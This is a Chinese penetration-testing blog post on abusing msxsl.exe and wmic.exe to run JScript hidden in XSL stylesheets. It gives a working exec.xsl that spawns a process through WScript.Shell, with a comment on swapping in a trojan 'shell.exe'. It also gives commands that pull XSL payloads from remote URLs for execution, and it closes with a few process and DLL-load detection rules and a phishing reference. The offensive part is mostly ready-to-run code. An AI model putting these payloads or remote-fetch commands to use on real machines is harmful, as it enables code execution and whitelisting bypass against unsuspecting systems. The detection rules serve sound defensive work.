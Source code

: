 ```yaml
---
title: XSL Script Processing
top: false
cover: false
categories:
- 渗透测试
tags:
- XSL Script Processing
- MSXSL.exe
abbrlink: 45834
date: 2020-09-10 12:23:14
keywords:
summary:
img:
password:
---
```


XSL是指扩展样式表语言(Extension Stylesheet Language)



`msxsl.exe`是微软用于命令行下处理XSL的一个程序，所以通过他，我们可以执行JavaScript进而执行系统命令，下载地址：https://www.microsoft.com/en-us/download/details.aspx?id=21714

执行该工具需要用到2个文件，分别为`XML`及`XSL`文件，msxsl命令行接受参数形式如下：

```bash
msxsl.exe {xmlfile} {xslfile}

# 调用文件内的命令
msxsl.exe {xslfile} {xslfile}
```



### 命令执行

#### 技术复现（MSXSL.EXE）

##### 本地执行

test.xml

```xml
<?xml version="1.0"?>

<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>

<customers>

<customer>

<name>Microsoft</name>

</customer>

</customers>
```

exec.xsl

```xml
<?xml version="1.0"?>

<xsl:stylesheet version="1.0"

xmlns:xsl="http://www.w3.org/1999/XSL/Transform"

xmlns:msxsl="urn:schemas-microsoft-com:xslt"

xmlns:user="http://mycompany.com/mynamespace">

 

<msxsl:script language="JScript" implements-prefix="user">

   function xml(nodelist) {

var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");

    //这里可以改造为执行你的木马文件如：

	// var r = new ActiveXObject("WScript.Shell").Run("cmd /k cd c:\ & shell.exe");

   return nodelist.nextNode().xml;

 

   }

</msxsl:script>

<xsl:template match="/">

   <xsl:value-of select="user:xml(.)"/>

</xsl:template>

</xsl:stylesheet>
```

执行

```bash
msxsl.exe test.xml exec.xsl
```





##### 远程执行

```bash
msxsl.exe https://raw.githubusercontent.com/xx/master/test.xml  https://raw.githubusercontent.com/xx/master/exec.xsl


```







#### 技术复现（WMIC.EXE）

wmic可通过如下方式执行xsl内的恶意代码

```bash
wmic.exe {wmic_cmd} /FORMAT:{xsl_file}
```

##### 本地执行

```bash
wmic.exe process get name /format:exec.xsl
```



##### 远程执行

```bash
wmic.exe process get name /format:http:/www.xxx.com/exec.xsl
```



https://www.cnblogs.com/backlion/p/10489916.html



### 威胁检测

**数据源：** 进程监视、进程命令行参数、网络的进程使用、DLL监视

#### msxsl.exe

进程特征：

```bash
# 当msxsl.exe作为父进程创建其他进程时视为可疑
ParentImage regex '^.*msxsl\.exe$'
```

加载项特征：

```bash
#当msxsl.exe加载jscript.dll时视为可疑
Image regex '^.*msxsl\.exe$' AND ImageLoaded contains 'jscript.dll'
```



#### wmic.exe

加载项特征

```bash
#当wmic.exe加载jscript.dll时视为可疑
Image regex '^.*wmic\.exe$' AND ImageLoaded contains 'jscript.dll'
```



### 通过MSXSL方式进行鱼叉式网络钓鱼

有年头的参考文章：https://www.anquanke.com/post/id/159316





